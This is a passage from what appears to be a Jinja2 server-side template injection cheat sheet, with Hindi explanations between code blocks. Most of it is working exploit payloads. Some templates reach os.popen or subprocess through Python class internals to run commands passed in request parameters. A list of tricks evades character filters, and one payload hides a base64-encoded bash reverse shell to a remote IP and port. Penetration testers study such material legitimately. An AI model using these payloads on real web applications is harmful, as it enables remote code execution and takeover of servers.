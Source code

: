 ```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}
{% endraw %}


## Passing the cmd line ?cmd=id, Without " and '
{{ dict.mro()[-1].__subclasses__()[276](request.args.cmd,shell=True,stdout=-1).communicate()[0].strip() }}

```
**अधिक कक्षाओं** के बारे में जानने के लिए जिन्हें आप **escape** करने के लिए उपयोग कर सकते हैं, आप **चेक** कर सकते हैं:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

### फ़िल्टर बायपास

#### सामान्य बायपास

ये बायपास हमें **access** करने की अनुमति देंगे **attributes** के वस्तुओं के **बिना कुछ वर्णों का उपयोग किए**।\
हमने पहले के उदाहरणों में इनमें से कुछ बायपास पहले ही देख लिए हैं, लेकिन आइए उन्हें यहाँ संक्षेप में प्रस्तुत करें:
```bash
# Without quotes, _, [, ]
## Basic ones
request.__class__
request["__class__"]
request['\x5f\x5fclass\x5f\x5f']
request|attr("__class__")
request|attr(["_"*2, "class", "_"*2]|join) # Join trick

## Using request object options
request|attr(request.headers.c) #Send a header like "c: __class__" (any trick using get params can be used with headers also)
request|attr(request.args.c) #Send a param like "?c=__class__
request|attr(request.query_string[2:16].decode() #Send a param like "?c=__class__
request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join) # Join list to string
http://localhost:5000/?c={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_ #Formatting the string from get params

## Lists without "[" and "]"
http://localhost:5000/?c={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_

# Using with

{% raw %}
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDEgMD4mMQ== | base64 -d | bash")["read"]() %} a {% endwith %}
{% endraw %}




```
* [**यहां अधिक विकल्पों के लिए लौटें जो एक वैश्विक ऑब्जेक्ट तक पहुंचने के लिए हैं**](jinja2-ssti.md#accessing-global-objects)
* [**यहां अधिक विकल्पों के लिए लौटें जो ऑब्जेक्ट क्लास तक पहुंचने के लिए हैं**](jinja2-ssti.md#recovering-less-than-class-object-greater-than)